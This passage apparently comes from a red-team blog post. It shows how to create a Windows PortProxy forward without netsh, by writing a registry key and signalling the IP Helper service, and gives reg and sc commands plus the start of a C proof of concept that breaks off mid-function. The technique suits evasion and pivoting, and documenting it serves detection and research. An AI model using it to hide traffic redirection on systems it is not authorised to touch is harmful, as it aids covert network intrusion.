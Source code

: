 We got it! If a `paramchange` control code arrives to the `iphlpsvc`, it is going to read again the PortProxy configuration from the registry and act according to the info retrieved. 

We can translate `netsh` PortProxy into the creation of a registry key and then sending a `paramchange` control code to the IP Helper service, or in other words we can execute these commands:

```
reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\PortProxy\v4tov4\tcp /t REG_SZ /v 0.0.0.0/49777 /d 192.168.8.128/80
sc control iphlpsvc paramchange
reg delete HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\PortProxy\v4tov4 /f 
```


# From stone to steel

It's time to translate our commands into a shitty PoC in C:
```c
// PortProxy PoC
// @TheXC3LL

#include <Windows.h>
#include <stdio.h>


DWORD iphlpsvcUpdate(void) {
	SC_HANDLE hManager;
	SC_HANDLE hService;
	SERVICE_STATUS serviceStatus;
	DWORD retStatus = 0;
	DWORD ret = -1;

	hManager = OpenSCManagerA(NULL, NULL, GENERIC_READ);
	if (hManager) {
		hService = OpenServiceA(hManager, "IpHlpSvc", SERVICE_PAUSE_CONTINUE | SERVICE_QUERY_STATUS);
		if (hService) {
			printf("[*] Connected to IpHlpSvc\n");
			retStatus = ControlService(hService, SERVICE_CONTROL_PARAMCHANGE, &serviceStatus);
			if (retStatus) {
				printf("[*] Configuration update requested\n");
				ret = 0;
			}
			else {
				printf("[!] ControlService() failed!\n");
			}
			CloseServiceHandle(hService);
			CloseServiceHandle(hManager);
			return ret;
		}
		CloseServiceHandle(hManager);
		printf("[!] OpenServiceA() failed!\n");
		return ret;
	}
	printf("[!] OpenSCManager() failed!\n");
	return ret;
}

DWORD addEntry(LPSTR source, LPSTR destination) {
	LPCSTR v4tov4 = "SYSTEM\\ControlSet001\\Services\\PortProxy\\v4tov4\\tcp";
	HKEY hKey = NULL;
	LSTATUS retStatus = 0;
	DWORD ret = -1;
	
```